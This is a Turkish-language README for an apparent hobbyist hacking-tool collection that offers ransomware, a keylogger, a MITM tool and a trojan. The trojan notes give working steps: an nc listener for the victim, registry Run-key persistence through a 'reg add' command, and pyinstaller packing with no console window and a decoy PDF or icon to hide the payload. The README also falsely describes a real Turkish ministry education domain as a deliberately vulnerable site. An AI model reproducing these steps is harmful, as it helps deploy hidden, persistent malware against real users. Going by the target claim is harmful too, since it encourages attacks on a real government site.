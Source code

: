 # NOT </br>
ilk commitde zip halinde farklı araçlarda vardır bunlar; </br>
ip degistirici </br>
mıtm savunma man in the midle ve </br>
ransom_virus = bu virüs bütün dosyaları  şifreler. </br>

# Basit_Hacker_aracı </br>
linuxda indirip yada var olan araçların bash komutları ile kullanılarak yapılmıştır. yani bu araçalrın bash komutlarını otomatikleştiren yazılımlardır.

# Ag Tarayıcı </br>
pip install scapy

# Veri Analizi </br>
pip3 install scapy-http
www.meb.k12.tr -> bilerek açıkları olan web sitesi

# Whatsapp Bot </br>
chrome üzerinden eskry for chrome eklentisini ekliyoruz.
firefox kurmamış gerek bide
firefox driver for selenium github dan geckodriver indiriyoruz.
pip install selenium
bir gmail hesabı açıyoruz ve hesap güvenliği kısmından daha az güvenli uygulama erişimini açmamız gerek. whatsapp botumuz için.

# Keyloger </br>
pip install pynput

# Trojan </br>
test etkmek için hede makineyi bilgisayarımızdan dinlememiz gerek bunun için nc -l -p 888 yapabiliriz.veya dinleyici.py çalıştır.
paketleme
pip install simplejson
dosyalar arasi gezinmek için
cd ve cd path(örn cd ..)
dosya indirmek için indir file_path
dosya yüklemek için yükle file_path upload_path
çökmesini engelmmek için try except blokları eklendi
sisteme yerleşme için:
regedit (kayıt defteri düzenleyicisi) :HYKEY_Curren USer sofware microsoft windows CurrentVersion Run içine gelip
yeni diyip bir değer kaydedebilriiz fakat bunu kod üzerinden yapıcaz biz. bunu için
cmd içinde reg add dosya_yolu(CurrentVersion->Run içi) /v windowseklenti(isim) /t REG_SZ(türü) /d "C:\users\IEUser\AppData\system.exe"(programın yolu)
bunu biz kodlama üzerinden  yapıcaz.
exe çevirmek için
pip instal pyinstaller
pyinstaller truva.py --onefile  -> exe dosyasına çevirir. --onefile bütün importları tek sayfada birleştirir.
kullanım:
yerles windowseklenti(isimver gpeditde gözükecek)
gizli çalışma:
pyinstaller truva.py --onefile --noconsole --icon icon_uzantı --add-data "pdf/resim_yolu=>\Dektop\5.pdf;."
veya resim ve icon eklemek için normal truva araçları ile yapılabilir.
eklenecekler:
menü kısmı -> komutların kullanımı.

